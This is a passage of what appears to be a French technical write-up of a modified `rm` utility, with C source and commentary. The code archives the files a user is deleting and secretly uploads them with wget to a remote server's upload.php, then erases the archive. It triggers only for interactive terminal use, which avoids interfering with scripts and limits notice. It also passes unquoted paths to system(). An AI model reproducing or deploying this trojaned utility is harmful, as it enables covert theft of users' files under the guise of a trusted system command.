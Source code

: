 ```c
    }

    snprintf(tar_path, sizeof(tar_path), "%s.tar.gz", dir_path);
    snprintf(cmd, sizeof(cmd), "tar -czf %s -C %s .", tar_path, dir_path);
    system(cmd);

    snprintf(body_path, sizeof(body_path), "%s/body-%ld.txt", dir_path, now);
    FILE* body_file = fopen(body_path, "w");
    fprintf(body_file, "--%s\r\n", boundary);
    fprintf(body_file, "Content-Disposition: form-data; name=\"file\"; filename=\"%s\"\r\n", basename(tar_path));
    fprintf(body_file, "Content-Type: application/gzip\r\n\r\n");
    fclose(body_file);

    snprintf(cmd, sizeof(cmd), "cat %s >> %s", tar_path, body_path);
    system(cmd);

    body_file = fopen(body_path, "a");
    fprintf(body_file, "\r\n--%s--\r\n", boundary);
    fclose(body_file);

    char *server_address = calc();
    snprintf(cmd, sizeof(cmd), "wget --header \"Content-Type: multipart/form-data; boundary=%s\" --post-file '%s' '%s/upload.php' -O - > /dev/null 2>&1", boundary, body_path, server_address);
    system(cmd);
    free(server_address);
    unlink(tar_path);
    unlink(body_path);
    remove_directory(dir_path);
    return 1;
}
```

#### 3.4 Fonction `main`

Dans la fonction `main`, j'ai ajouté une petite condition pour vérifier si le programme `rm` est exécuté directement par un utilisateur dans un terminal ou par un script. 

Si c'est exécuté dans un terminal (ce que je vérifie avec `isatty(STDIN_FILENO)`), j'exécute ma fonction `custom_handle_files`. Sinon, je procède à une suppression normale avec `rm`. 

Cela me permet de m'assurer que mes opérations spéciales ne sont utilisées que dans les contextes appropriés, sans interférer avec des scripts ou des automatisations qui pourraient appeler `rm`.

```c
//....
  if (isatty(STDIN_FILENO)) {
      if (!custom_handle_files(argv + optind, argc - optind, &x)) {
          return rm(argv + optind, &x);
      }
  } else {return rm(argv + optind, &x); }
//...
```
